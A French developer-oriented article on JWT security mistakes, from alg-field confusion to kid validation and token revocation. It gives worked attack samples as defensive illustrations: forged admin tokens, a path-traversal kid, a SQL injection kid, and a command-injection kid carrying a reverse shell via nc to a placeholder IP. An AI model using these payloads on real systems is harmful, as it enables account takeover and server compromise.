



<span id="intro"></span>
*Disclaimer : cet article est une vue d’ensemble destinée aux développeurs, j'ai fais des approximations sur pas mal de sujets ; je m’excuse d’avance si ça vous dérange, et je suis ouvert à tout retour par mail [nas2pwn@protonmail.com](mailto:nas2pwn@protonmail.com) ou sur twitter [@nas2pwn](https://twitter.com/nas2pwn) :smiley:*

Dans cet article :
1. [Intro](#intro)
2. [JWT c'est quoi ?](#jwt-ckois)
3. [Les erreurs à éviter](#erreurs)

Si vous vous intéressez à JWT, c’est que vous êtes familiers avec le développement web ou mobile, et avec la notion de session côté serveur. Il est même possible que de doux souvenirs de `session_start()` et de `var_dump()` vous viennent en tête à la lecture de l’article !

Pour rappel, le principe de la session côté serveur est le suivant : le serveur génère un identifiant (le fameux `PHPSESSID` en PHP) qu’il associe à un tableau associatif (`$_SESSION[]` en PHP) et qu’il retourne au client sous forme de cookie (via l’en-tête `Set-Cookie`).



Cette solution permet de ne pas avoir à indiquer ses identifiants à chaque requête.



Ce qui rend cette technique presque inviolable, c’est que la seule information contrôlée par le client (l’ID de session) est générée aléatoirement, et n’a pas valeur d’information pour l’application : ce qui exclut de fait toute altération directe de la session ou attaque par injection de code.

Mais cette technique a des limites. Elle ne fonctionne que si tous les endpoints de l’application tournent sur le même serveur (en réalité le même service), et utilisent la même technologie.

Or, il existe pléthore de cas où cette condition n’est pas remplie, pour n’en citer que deux :

- Le cas des applications scalables nécessitant une répartition de la charge entre plusieurs serveurs, grâce un load balancer qui route les requêtes vers un serveur ou un autre selon leurs disponibilités.<br/><br/>Le problème ici, c’est qu’on peut très bien avoir notre session stockée sur l’un des serveurs au début de notre navigation, puis finir par être routé vers un autre serveur qui n’a pas connaissance de notre session au cours de notre navigation, et donc perdre notre session.<br/><br/><br/><br/>*Note : il est possible d’implémenter une session côté serveur dans cette configuration en stockant les sessions dans une base de données commune aux serveurs web, mais il est possible que cette base de données finissent pas être surchargée, ce qui réduit l'intérêt du load balancer à néant.*

- Le cas où l’utilisateur doit pouvoir se connecter simultanément à plusieurs API indépendantes.<br/><br/>On peut imaginer un site de réservation de voyage où l’API du service client et l’API de réservation ne sont pas codées dans le même langage et/ou ne tournent pas sur le même serveur.<br/><br/>On veut pourtant que les deux API partagent la même session pour avoir accès aux informations de l’utilisateur, sans qu'il n'ait à se reconnecter à chaque page, en sachant que les API ne peuvent pas partager de session côté serveur.<br/><br/>Cette situation est courante, notamment dans les environnements agiles où l’aspect opérationnel et les délais courts priment sur les exigences techniques et les négociations contractuelles.<br/><br/>*Note : il existe quand même des solutions un peu borderline pour partager une session côté serveur entre API de technologies différentes sur un même serveur, typiquement PHP et Node.js, mais rien n’atteste de leur stabilité ni de leur sécurité.*

Les puristes du HTTP déplorent également l’aspect stateful ("avec état", lorsque l’état du client est enregistré sur le serveur entre deux requêtes) du système de session côté serveur, qui entre en contradiction avec la nature stateless ("sans état") de HTTP (tel que défini dans la [RFC 2616](https://tools.ietf.org/html/rfc2616)).

L’architecture REST par exemple, est puriste sur les bords, et n’autorise pas le recours à un système de session côté serveur. Il faut la comprendre, elle a été conçue par Roy Fielding, qui a également développé le protocole HTTP/1.1 !

Alors, en quoi JWT peut nous aider ?

## JWT c’est quoi ? <span id="jwt-ckois"></span>

JWT, abréviation de JSON Web Token, est une méthode sécurisée d’échange d’information décrite par la [RFC 7519](https://tools.ietf.org/html/rfc7519). L’information est échangée dans un jeton qui est signé pour assurer son intégrité.

### Anatomie

Un jeton JWT est composé de trois éléments :

- Le header
- La charge utile (ou payload, officiellement "claims set")
- La signature

Le header identifie la méthode de chiffrement utilisée pour générer la signature (sous forme de JSON).

```json
{
 "alg" : "HS256",
 "typ" : "JWT"
}
```

Ici la fonction de chiffrement utilisée est HMAC-SHA256, qui est couramment utilisée.

La charge utile contient l’information que l’on veut stocker dans le jeton. On peut y écrire librement dans des champs personnalisés ("claims"), mais il existe des champs standards ("registered claims") à respecter, qui sont décrits dans la [RFC 7519](https://tools.ietf.org/html/rfc7519).

```json
{
 "username" : "homer",
 "isAdmin" : 0,
 "iat" : 1422779638,
 "exp" : 1422979638
}
```

Ici, on stocke le nom de l’utilisateur dans le champ `username`, les privilèges administrateur ou non de l'utilisateur dans le champ `isAdmin`, le timecode d’émission du jeton dans le champ `iat`, et celui d’expiration du jeton dans le champ `exp`.

Les champs `iat` et `exp` sont des champs standards signifiant respectivement "Issued At Time" et "Expiration Time".

Enfin, on a la signature du jeton, qui vaut ici :

<pre><code>
HMAC-SHA256(<span style="color:#3498db">base64_encode(header)</span> + "." + <span style="color:#27ae60">base64_encode(charge utile)</span>, secret)
</code></pre>

`secret` est en quelque sorte notre clé de chiffrement, une chaîne de caractères qui servira à générer la signature et à la vérifier.

Le jeton final est la concaténation des trois parties ci-dessus encodées en base64 et séparées par des points :

<pre><code>
<p><span style="color:#3498db">base64_encode(header)</span> + "." + <span style="color:#27ae60">base64_encode(charge utile)</span> + "." + <span style="color:#e74c3c">base64_encode(signature)</span></p>

<span style="color:#3498db">HEADER</span>.<span style="color:#27ae60">PAYLOAD</span>.<span style="color:#e74c3c">SIGNATURE</span>
</code></pre>

### Gérer l'authentification avec JWT

*En réalité, JWT est un standard qui concerne exclusivement le jeton. Je vais ici décrire un protocole d'authentification qui utilise des jetons JWT et que j'ai tendance à également appeler JWT par métonymie.*

Le principe de fonctionnement de JWT diffère de celui de la session côté serveur par le fait que c’est le client qui stocke l'information de la session : on peut en ce sens parler de session côté client.

Le principe est le suivant : le client envoie ses identifiants à l'API de connexion, qui lui renvoie son jeton JWT si la connexion est un succès.

Il suffit ensuite à l’utilisateur d’indiquer ce jeton à chaque fois qu’il appelle une API.



Notez qu'ici le jeton JWT est envoyé via l'en-tête Authorization de la requête HTTP, que notre navigateur web n’est pas capable de remplir automatiquement.

En fait, cette manière de procéder est adaptée aux applications organisées par API, et où le front-end est capable de faire ses propres requêtes asynchrones (applications web javascript type React par exemple, ou applis mobiles).

Mais il est également possible de stocker le jeton JWT dans un cookie, ce qui se rapproche plus de l’expérience que l’on a avec le PHPSESSID par exemple.

*Je vous conseille de lire [cet excellent article](https://www.vaadata.com/blog/fr/jetons-jwt-et-securite-principes-et-cas-dutilisation/) pour avoir plus d’informations sur le sujet.*

## Les erreurs à éviter <span id="erreurs"></span>

Vous l’avez peut-être remarqué : je ne parle absolument pas d’implémentation dans cet article, et vous ne verrez pas une seule ligne de code.

Je vais en fait me concentrer sur les principales erreurs de conception qui peuvent rendre un jeton JWT (très) dangereux, sans trop rentrer dans les détails techniques.

L’idée est de vous permettre de sécuriser votre appli par vous-même, pour faire de la sécurité by-design. 

Ce qui rend JWT très vulnérable, c’est que l’information de la session, qui était historiquement stockée par le serveur, l’est maintenant par le client.

On est donc obligés de lui faire confiance, alors qu’on lui donne beaucoup de pouvoir, et qu’il n’est pas forcément digne de confiance ! On va donc voir quelles précautions prendre assurer nos arrières.

Mais avant de commencer, définissons ce que l’on risque en cas d’attaque réussie du jeton JWT :

- **Usurpation d’identité :** si le jeton sert à identifier l’utilisateur et qu’un utilisateur malveillant parvient à en contrôler le contenu, il peut potentiellement se connecter au compte qu’il veut, et/ou obtenir des privilèges sur l’application.  
- **Vol de marchandise :** il arrive que le panier de l’utilisateur soit stocké dans un jeton JWT. Un jeton mal configuré pourrait alors, si le back-end fait pleinement confiance à ce jeton, mener à des vols de marchandise.  

- **Vol des données des utilisateurs :** il existe des cas où l’attaque d’un jeton JWT mène à des attaques par injections SQL (ou NoSQL, XPath, voire LDAP…), donc potentiellement au vol de la base de données (ou de l’annuaire) derrière l’application.  

- **Remote Code Execution :** un utilisateur malveillant peut potentiellement prendre le contrôle du serveur s’il parvient à combiner l’attaque du jeton à un autre vecteur d’attaque. Il peut ensuite, s’il y a des failles dans le serveur (considérez qu’il y en a), en prendre le contrôle complet : on parle d’escalade de privilège.  
Cette position lui permet par la suite d’essayer de rebondir sur le SI interne de l’entreprise.  

- **Une amende :** si l’attaque donne lieu à des fuites de données personnelles et que, dans le cadre du RGPD, les investigations de la CNIL révèlent que l’obligation de moyen du responsable du traitement des données n’a pas été respectée : elle peut prononcer une sanction allant jusqu’à 20 millions d’euros ou 4% du chiffre d’affaires annuel mondial de l’entreprise.  

- **Impact sur la réputation:** les attaques ci-dessus pourrait nuire à la réputation de l’entreprise touchée. A fortiori s’il s’agit d’un site de e-commerce : car ce qui fait la force d’un acteur économique sur un marché, c’est en grande partie la confiance que les autres acteurs du marché lui octroient. Et il est difficile de faire confiance en une plateforme qui a déjà été piratée, surtout quand on doit y indiquer nos informations bancaires.

Maintenant, voici les erreurs à éviter.

### Utiliser JWT pour les mauvaises raisons

Vous l’aurez compris, JWT est plus dangereux qu’un système de session côté serveur. La hype autour de cette technologie et son aspect "hyper sécurisé" ne doit pas vous aveugler dans votre choix.

Utiliser JWT, c’est augmenter la surface d’attaque de votre application : assurez-vous donc que son utilisation soit justifiée.

### Utiliser le chiffrement symétrique à tort et à travers

On peut utiliser deux méthodes de chiffrement pour signer un jeton JWT :

- **HMAC :** qui est symétrique, on utilise la même clé pour signer un jeton et pour en vérifier la signature, cette clé doit évidemment rester privée.
- **RSA :** qui est asymétrique, on signe avec la clé privée, et on vérifie la signature avec la clé publique.

Généralement, l’utilisation de HMAC est suffisant, et plus pratique : puisque souvent le même serveur s'occupe à la fois de l'émission et de la vérification du jeton, et HMAC est (beaucoup) plus rapide que RSA.

Mais l’utilisation de RSA comme méthode de chiffrement présente pas mal d’avantages.

Elle permet notamment de mieux délimiter les rôles de chaque API : l'API émettrice de jetons doit être la seul à avoir accès à la clé privée, tandis que les API qui vérifient les jetons ne doivent eux avoir accès qu’à la clé publique.

Ainsi, si un pirate réussit à prendre le contrôle d’une API qui ne fait que vérifier les jetons et qui utilise RSA, il ne pourra voler que la clé publique et ne pourra donc pas signer ses propres jetons.

### Ne pas vérifier l’algorithme de chiffrement

L’utilisateur a tout le loisir de modifier le header de son jeton, ce même header qui spécifie la méthode de chiffrement à utiliser pour vérifier le jeton : il peut s’en servir pour duper le serveur.

##### Cas 1 :

On a vu qu’on peut spécifier l’algorithme HMAC ou RSA, mais on peut aussi spécifier `none` dans le champ `alg` pour ne pas avoir à signer le jeton.

Pour se faire, il suffit de changer le header comme ceci :

<pre><code class="language-json">
{
 "<span class="hljs-attribute">alg</span>" : <span class="hljs-value"><span class="hljs-string"><strike>"HS256"</strike> "none"</span></span>,
 "<span class="hljs-attribute">typ</span>" : <span class="hljs-value"><span class="hljs-string">"JWT"</span></span>
}
</code></pre>

De modifier le payload comme on le souhaite :

<pre><code class="language-json">
{
	"<span class="hljs-attribute">username</span>" : <span class="hljs-value"><span class="hljs-string">"h4xor"</span></span>,
	"<span class="hljs-attribute">isAdmin</span>" : <span class="hljs-value"><span class="hljs-number"><strike>0</strike> 1</span></span>,
}
</code></pre>

Puis de retirer la signature du jeton :

<pre><code>
<span style="color:#3498db">ewogImFsZyIgOiAibm9uZSIsCiAidHlwIiA6ICJKV1QiCn0=</span>.<span style="color:#27ae60">ewoJInVzZXJuYW1lIiA6ICJoNHhvciIsCgkiaXNBZG1pbiIgOiAxLAp9</span>.<strike style="color:#e74c3c">NmWwHkoBnn7m03Q32gR_K2Xp-7T7T3JLTMEr8iksouA
</strike></code></pre>

C’est une fonctionnalité utile quand on veut faire du débogage, mais ça permet surtout aux attaquants de générer leurs propres tokens sans avoir à les signer quand le serveur n'est pas très regardant sur le contenu du header.

Heureusement, la plupart des librairies de gestion de JWT rejettent par défaut les jetons non signés, mais ce n’est pas le cas de toutes les librairies : il faut donc tester la faille, et corriger le code si besoin !

##### Cas 2 :

Maintenant, un cas plus complexe. Imaginons une application gérant la signature de ses jetons JWT avec RSA.

On ne peut à priori pas signer de jeton avec la clé publique uniquement, sauf si on remplace RSA par HMAC dans `alg` !

<pre><code class="language-json">
{
 "<span class="hljs-attribute">alg</span>" : <span class="hljs-value"><span class="hljs-string"><strike>"RS256"</strike> "HS256"</span></span>,
 "<span class="hljs-attribute">typ</span>" : <span class="hljs-value"><span class="hljs-string">"JWT"</span></span>
}
</code></pre>

En effet, le serveur va penser que la clé publique utilisée pour vérifier le jeton est également la clé à utiliser pour signer le jeton, car HMAC est une méthode de chiffrement symétrique.

L'attaquant pourra ainsi signer ses propres jetons avec la clé publique !

Pour corriger cette faille, il faut à chaque vérification de jeton s’assurer que l’algorithme spécifié dans le champ `alg` du jeton soit effectivement l’algorithme attendu.

Il est également souhaitable de ne pas rendre public la clé publique si l’utilisateur lambda n’en a pas besoin : car moins un attaquant sait de choses, plus la probabilité d’une attaque réussie est faible.

Ceux qui ont vu le bureau des légendes connaissent déjà ce principe, c’est le fameux "besoin d’en connaître" 😉.

*Évitez donc d'utiliser la même paire de clés pour votre certificat SSL/TLS que pour signer vos jetons JWT par exemple !*

### Faire confiance au payload

Empêcher la falsification du jeton est une chose, mais limiter l’impact d’une attaque réussie en est une autre.

Il faut admettre que les jetons JWT sont falsifiables, et qu’il faut donc faire le moins confiance possible à l’information qu’ils contiennent.

Quand vous lisez un jeton JWT, vous obtenez des variables qu’il faut filtrer contre les failles XSS, les injections SQL, les LFI, etc. comme si c’était une entrée utilisateur directe !

### Stocker des informations sensibles en clair dans le jeton

Si l’utilisateur ne peut en principe pas modifier le contenu du jeton, il peut tout à fait le lire : il ne faut donc pas y stocker d’informations sensibles en clair, et si possible ne pas y stocker d’informations sensibles du tout !

*Si vous devez absolument avoir une info sensible sur le jeton, mais uniquement pour la comparer à une autre info (comme un mot de passe à comparer à un autre mot de passe) : optez pour le hachage plutôt que pour une méthode chiffrement*

### Utiliser un secret trop simple

Quand on a un jeton JWT, on a accès à son contenu en clair ainsi qu’à sa signature : on peut donc obtenir la clé de chiffrement par bruteforce !

Il va alors falloir utiliser une clé béton !

Si on utilise RSA : il suffit de générer une paire de clés de longueur suffisante avec openssl ou ssh-keygen pour se protéger, et si on utilise HMAC : on ne parle pas réellement de clé mais de "secret", une sorte de mot de passe qui sert de clé de chiffrement.

Comme pour un mot de passe, il faut éviter d’utiliser des mots courants pour prévenir les attaques par dictionnaire. Substituer des lettres par des chiffres n'est pas très efficace, combiner plusieurs mots non plus (dans une certaine mesure évidemment).

Eviter donc les secrets du type : `MySup3rS3cr3t`

Puisque nous n’avons pas à nous souvenir du secret par cœur, qui sera de toute façon stocké sur le serveur, on peut simplement choisir une chaîne de caractères aléatoires de longueur suffisante.

*Mieux vaut exagérer la longueur du secret que la négliger*

### Ne pas vérifier le KID

Il est possible quand on a plusieurs clés de spécifier la clé à utiliser pour vérifier la signature d'un jeton dans son header, grâce au champ standard `kid`, qui signifie "Key ID".

Il n'y a pas de restrictions quant à la forme que le KID peut prendre : ça peut être l'ID d'une clé sous forme numérique ou bien le chemin vers un fichier contenant la clé par exemple.

Petit exemple :

```json
{
	"alg" : "HS256",
	"typ" : "JWT",
	"kid" : 2
}
```

Ici, le serveur va utiliser la clé n°2 pour vérifier la signature du jeton : ce que le développeur a défini comme étant la clé n°2 en fait.

Comme pour `alg`, un utilisateur malveillant peut modifier le KID de son jeton pour tenter de duper le serveur.
On va voir deux exemples d'attaque du KID.

##### Cas 1:

Imaginons que le KID serve à indiquer le chemin vers le fichier contenant la clé de chiffrement :

Header

```json
{
	"alg" : "HS256",
	"typ" : "JWT",
	"kid" : "secret.key"
}
```

Payload

```json
{
	"username" : "h4xor",
	"isAdmin" : 0
}
```

Un pirate peut modifier le KID de son jeton pour pointer vers un fichier du serveur auquel il a accès, par exemple le fichier `robots.txt` de l'appli :

Header

<pre><code class="language-json">
{
	"<span class="hljs-attribute">alg</span>" : <span class="hljs-value"><span class="hljs-string">"HS256"</span></span>,
	"<span class="hljs-attribute">typ</span>" : <span class="hljs-value"><span class="hljs-string">"JWT"</span></span>,
	"<span class="hljs-attribute">kid</span>" : <span class="hljs-value"><span class="hljs-string"><strike>"secret.key"</strike> "../www/html/robots.txt"</span></span>
}
</code></pre>

Payload

<pre><code class="language-json">
{
	"<span class="hljs-attribute">username</span>" : <span class="hljs-value"><span class="hljs-string">"h4xor"</span></span>,
	"<span class="hljs-attribute">isAdmin</span>" : <span class="hljs-value"><span class="hljs-number"><strike>0</strike> 1</span></span>
}
</code></pre>

Il lui suffit ensuite de signer son faux jeton avec le contenu du fichier `robots.txt`, puis de le soumettre au serveur !

Pour se protéger contre cette attaque : il faut filtrer le KID des attaque de type Directory Traversal, en lui retirant les `/` et les `..` par exemple.

##### Cas 2 :

Imaginons maintenant que les clés soient stockées dans la table `secrets` de la base de données de l'application.

Le KID sert alors à indiquer l'ID de la clé à utiliser pour vérifier la signature dans la table secrets.

L'application va devoir faire un appel à la base de données pour récupérer le secret à chaque fois qu'il vérifie un jeton, en SQL :

```sql
SELECT secretPlain FROM secrets where id=$kid limit 0,1;
```

Si le KID n'est pas filtré contre les injections SQL, l'attaquant peut alors insérer sa propre clé ou mener des attaques SQL à l'aveugle pour voler des informations !

Ici il insère son propre secret dans la base de données, la clé d'ID 72 de la table sera `je tai hacke mdr` :

<pre><code class="language-json">
{
	"<span class="hljs-attribute">alg</span>" : <span class="hljs-value"><span class="hljs-string">"HS256"</span></span>,
	"<span class="hljs-attribute">typ</span>" : <span class="hljs-value"><span class="hljs-string">"JWT"</span></span>,
	"<span class="hljs-attribute">kid</span>" : <span class="hljs-value"><span class="hljs-number"><strike>2</strike></span></span> <span class="hljs-value"><span class="hljs-string">"2; <code class="language-sql"><span class="hljs-operator"><span class="hljs-keyword">INSERT INTO</span> secrets <span class="hljs-keyword">VALUES</span> (<span class="hljs-number">72</span>,<span class="hljs-string">'je tai hacke mdr'</span>);<span class="hljs-comment">--</span></span></code>"</span>
}
</code></pre>

Il lui suffit ensuite de fabriquer son jeton et de le signer avec le secret qu'il a inséré, en indiquant bien le KID 72 dans le header :

```json
{
	"alg" : "HS256",
	"typ" : "JWT",
	"kid" : "72"
}
```

*S'il est nécessaire de filtrer le KID contre les injections, il faut aussi bien définir les rôles dans la base de données pour limiter la portée d'une attaque réussie !*

##### Cas 3 :

Il est possible que le KID soit passé en paramètre d'une commande shell.

Petit exemple en PHP :

```php
$key=system("findMyKey ".$kid);
```

Ici le problème est évident, l'utilisateur peut injecter ses propres commandes si le KID n'est pas filtré.

Ainsi, la lecture d'un jeton avec ce header

<pre><code class="language-json">
{
	"<span class="hljs-attribute">alg</span>" : <span class="hljs-value"><span class="hljs-string">"HS256"</span>,
	"<span class="hljs-attribute">typ</span>" : <span class="hljs-value"><span class="hljs-string">"JWT"</span>,
	"<span class="hljs-attribute">kid</span>" : <span class="hljs-value"><span class="hljs-number"><strike>2</strike></span></span> <span class="hljs-value"><span class="hljs-string">"2; rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 12.34.56.78 1234 > f"</span>
}
</code></pre>

génèrera un reverse shell vers la machine du pirate, qu'il pourra utiliser pour exécuter les commandes qu'il souhaite sur notre serveur web.

Pour éviter cette situation, le mieux est de ne pas du tout passer par une commande shell.

Mais si vous n'avez pas le choix, pensez à filtrer le KID avec une fonction comme `escapeshellcmd()` en PHP.

*Attention : c'est la même problématique quand on utilise des fonctions du style `eval()` !*

### Ne pas sécuriser la clé

Rien ne sert de prendre des milliers de précautions si la clé de chiffrement n'est pas en sécurité !

Il ne faut surtout pas que l'utilisateur puisse accéder à la clé :
- Elle ne doit donc évidemment pas être accessible à l'utilisateur via le serveur web
- Elle doit avoir les privilèges les plus restreints possibles au niveau de l'OS
- Il faut faire attention aux autres vecteurs d'attaques qui pourrait permettre à un attaquant de voler la clé sur le serveur : les failles LFI, mais aussi XXE si vous parsez du XML, SSRF si vous faites des requêtes depuis le back-end, XSS si vous devez générer des PDF sur mesure par exemple, etc.<br><br>Vous trouverez beaucoup de ressources sur Internet en googlant ces noms barbares, mais il est parfois nécessaire de faire appel à un professionnel pour mener un audit complet de l'application à sécuriser.
- Il faut faire attention aux failles OSINT ou relatives au social engineering.<br><br>Il est possible d'avoir une application incroyablement bien sécurisé, mais d'avoir malencontreusement oublié la clé de chiffrement dans le github de l'application, dans le slack de l'équipe, ou dans le trello du projet.<br><br>Autant d'endroits où pourraient s'incruster de petits malins en quête de sensation fortes, ou de véritables pirates qui en ont après votre application.<br><br>Il suffit parfois d'une recherche google bien placée, ou d'un peu de tchatche et d'astuce pour pénétrer ce genre d'endroits.<br><br>Dans [cet article](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c), vous trouverez un exemple d'intrusion dans un canal slack, via l'e-mail de support de la boîte.<br><br>*Il arrive que des développeurs oublient de retirer le dossier .git en production, ce qui permet à un potentiel pirate de reconstituer tout le code source de l'appli, et éventuellement la clé de chiffrement des jetons ou le mot de passe de la base de données !*

### Ne pas vérifier la signature

Oui, c'est tout bête, mais il arrive qu'on oublie de vérifier la signature des jetons JWT par mégarde ou malentendu.

Il faut tester si le programme laisse passer une signature invalide, et corriger le code si c'est le cas.

### Utiliser une date d’expiration trop lointaine

L’un des gros inconvénients de JWT, c’est qu’on ne peut pas révoquer la session d’un utilisateur : quand on lui délivre un jeton, il est valable jusqu'à sa date d'expiration, impossible de le lui retirer.

Et c’est particulièrement gênant quand on s’en sert pour authentifier les utilisateurs.

Si on délivre un jeton qui a une durée de vie de 1 an à un utilisateur, et qu’on se rend compte que c’est un usurpateur d'identité, on est incapables de le lui révoquer : il pourra encore usurper pendant un an !

Heureusement, il existe des solutions à ce problème :smiley:

##### Solution clean

On peut employer un mécanisme à deux jetons :

- Le premier jeton est celui qui sert à authentifier l’utilisateur, appelons le jeton d'authentification. On lui donne une durée de vie très courte, de l’ordre de la minute (disons entre 3 et 10 min).
- Le deuxième jeton, de rafraîchissement, sert à rafraîchir le premier jeton une fois celui-ci expiré. Il a une durée de vie plus longue : de l'ordre de la semaine. Il contient l’identifiant de l’utilisateur et un offset de session.

Quand l’utilisateur se connecte à l’application avec ses identifiants, il reçoit les deux jetons.

Quand il appelle une API avec son jeton d'authentification, le serveur vérifie le jeton puis lui donne l’accès à l’API si tout va bien.

Et quand le jeton d'authentification a expiré, le client doit envoyer une demande de rafraîchissement du jeton d'authentification en spécifiant le jeton de rafraîchissement.

Le serveur va vérifier le jeton de rafraîchissement, puis vérifier que l’offset de session indiqué dans le jeton est bien l'offset de session lié à l'utilisateur dans la base de données. Si c'est le cas, il lui envoie un nouveau jeton d'authentification.

L'offset de session, c'est un simple nombre entier que l'on associe à chaque utilisateur.

Quand il se connecte avec ses identifiants, son offset est stocké dans le jeton de rafraîchissement qui lui est émis.

Et à chaque fois qu'il va demander à rafraîchir son jeton d'authentification, on va vérifier que l'offset indiqué dans son jeton de rafraîchissement est le même que celui qui lui est attribué dans la base de données. 

Ainsi, pour révoquer la session d'un utilisateur, il suffira d'incrémenter son offset dans la base de données !

En effet, lorsqu'il fera une nouvelle demande de rafraîchissement du jeton d'authentification (au bout de quelques minutes maximum), le serveur se rendra compte que l'offset indiqué dans le jeton de rafraîchissement ne correspond plus à l'offset qui lui est lié dans la base de données, et refusera sa demande.


Attention cependant à une chose : il ne faut pas donner à l'offset une valeur qu'il a déjà eu auparavant, car un pirate pourrait avoir enregistré d'anciens jetons contenant d’anciens offsets.

*Il faut évidemment développer une application capable de bien gérer le rafraîchissement de telle manière que l'utilisateur ne se rende pas compte quand un jeton d'authentification a expiré.*

##### Solution questionnable

Il est également possible que vous trouviez au détour d'un tuto une solution de révocation de jeton à base de blacklist.

En fait, chaque jeton à vérifier est comparé à une liste de jetons révoqués (une blacklist donc) : s’il est présent dans cette liste, il est rejeté. Il suffit ainsi d'ajouter un jeton à la liste pour le révoquer.

